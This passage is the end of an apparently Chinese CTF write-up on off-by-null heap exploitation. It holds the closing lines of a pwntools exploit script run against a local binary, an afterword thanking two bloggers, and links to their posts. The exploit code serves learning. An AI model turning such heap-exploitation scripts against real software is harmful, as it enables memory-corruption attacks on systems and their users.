 ```python
    print('ok3')
    free(8)
    print('ok4')

p=process('./text')
pwn()
gdb.attach(p)
p.interactive()
```

## 后记

off by null 自从qwb被打懵后一直想了解这个知识，但又是毕业那些一大堆事情。同时tcl看了很多文章才看懂。感谢wjh爷爷和nopnoping爷爷的文章。

## 参考文献

https://nopnoping.github.io/off-by-one%E5%88%A9%E7%94%A8%E6%80%BB%E7%BB%93/

http://blog.wjhwjhn.com/archives/193/